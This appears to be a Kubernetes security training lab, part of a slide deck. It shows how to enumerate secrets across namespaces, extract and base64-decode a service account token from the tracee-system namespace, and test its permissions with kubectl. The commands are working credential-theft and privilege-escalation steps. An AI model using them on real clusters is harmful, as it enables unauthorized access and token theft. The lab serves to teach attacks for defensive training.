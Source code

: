Look at the pod's service account K8S mounts inside the container

```
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
```

### Slide 127 - Priv esc - to golden tickets (lab cont.)

Get secrets

```
kubectl get secrets
```

Not much there, lets see if we can see secrets outside our namespace?

```
kubectl get secrets --all-namespaces
```

One of these looks interesting...

```
kubectl get secrets -n tracee-system | grep security
```

Let's try and get the service account token stored in this secret
```
kubectl -n tracee-system get secret security-svc-token -o json
```

For this command we used `-o json`, hence the output details in json, some cases makes it easier to parse

### Slide 129 - Priv esc - to golden tickets (lab cont.)

We need to get the token in a form we can use

```
export TOKEN=$(kubectl -n tracee-system get secret security-svc-token -o=jsonpath="{.data.token}" | base64 -d)
```
**Note:** The above command parses the field out of josn, and decodes the base64

```
echo $TOKEN
```
**Note:** Starts with eyJ which is the clue its a JSON Web Token, which is in base64 still (it was encoded twice), the eyJ is the first few characters in a JSON doc in base64. You can always `echo $TOKEN | base64 -d` if you want to see what the JSON looks like in a JWT

```
kubectl auth can-i --list
```

### Slide 130 - Priv esc to golden tickets (lab cont.)

Let's try to use the token this time
```
kubectl auth can-i --list --token="$TOKEN"
```
